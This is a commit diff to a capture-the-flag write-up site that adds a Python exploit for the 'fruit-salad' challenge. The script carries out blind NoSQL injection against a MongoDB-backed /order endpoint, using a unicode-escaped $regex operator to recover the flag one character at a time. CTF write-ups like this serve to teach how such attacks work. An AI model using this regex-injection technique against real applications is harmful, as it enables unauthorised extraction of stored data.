

Before and after one commit to andrei2308/ctf-challenges, a Jekyll site: the page built from rocsc2025/fruit-salad/description.md, in a window 1280 px wide and 1400 px high, scrolled down 4716 px. Shown: the whole window at 98% size, without its empty margins (198-1081 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 5346 px from its top, so only the background shows below that.

Commit message:
Update description.md

````diff
--- a/rocsc2025/fruit-salad/description.md
+++ b/rocsc2025/fruit-salad/description.md
@@ -84,6 +84,46 @@ To get the flag I constructed a Python script that tries every letter and number
 
 Running this script (see the exploit.py file in this folder) gives us the complete flag character by character.
 ![alt text](image-5.png)
+
+## Exploit
+
+```python
+import string
+import requests
+
+url = "<site-url>/order"
+
+unicode_char = string.ascii_letters + string.digits + "}"
+flag = "CTF{"
+
+while True:
+    ok = False
+    for char in unicode_char:
+        req = '''
+            {
+    "fruits": [
+        "Grape",
+        "Grape",
+        "Grape",
+        {"\\u0024regex": "^''' + flag + char + '''"},
+        "Grape"
+    ]
+}
+        '''
+        http_res = requests.post(url=url,data=req,headers={"Content-Type": "application/json"})
+        response = http_res.json().get("message","")
+        print(f"{flag + char}, {response}")
+        if(response == "Enjoy your salad!"):
+            flag+=char
+            ok = True
+            print(f'Partial flag : {flag}')
+            if(char == "}"):
+                print(f'Flag found: {flag}')
+                exit(0)
+            break
+
+```
+
 ## Key Takeaways
 1. The hint ("mango") pointed to MongoDB/NoSQL injection
 2. Understanding the response behavior was crucial (5 fruits vs fewer)
````
